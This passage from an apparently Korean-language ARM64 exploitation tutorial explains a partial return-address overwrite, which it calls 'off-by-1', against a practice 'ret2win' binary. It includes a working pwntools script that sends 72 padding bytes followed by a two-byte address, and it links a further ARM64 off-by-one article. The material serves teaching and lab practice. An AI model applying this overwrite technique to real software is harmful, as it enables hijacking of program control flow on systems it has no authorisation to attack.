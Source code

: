 ```python
```
<figure><img src="../../../.gitbook/assets/image (1211).png" alt="" width="375"><figcaption></figcaption></figure>

### Off-by-1

사실 이것은 스택에 저장된 PC에서 오프 바이 2와 더 비슷할 것입니다. 모든 반환 주소를 덮어쓰는 대신 **마지막 2바이트만** `0x06c4`로 덮어쓸 것입니다.
```python
from pwn import *

# Configuration
binary_name = './ret2win'
p = process(binary_name)

# Prepare the payload
offset = 72
ret2win_addr = p16(0x06c4)
payload = b'A' * offset + ret2win_addr

# Send the payload
p.send(payload)

# Check response
print(p.recvline())
p.close()
```
<figure><img src="../../../.gitbook/assets/image (1212).png" alt="" width="375"><figcaption></figcaption></figure>

ARM64에서 또 다른 off-by-one 예제를 [https://8ksec.io/arm64-reversing-and-exploitation-part-9-exploiting-an-off-by-one-overflow-vulnerability/](https://8ksec.io/arm64-reversing-and-exploitation-part-9-exploiting-an-off-by-one-overflow-vulnerability/)에서 찾을 수 있으며, 이는 허구의 취약점에서 실제 off-by-**one**입니다.

## PIE와 함께
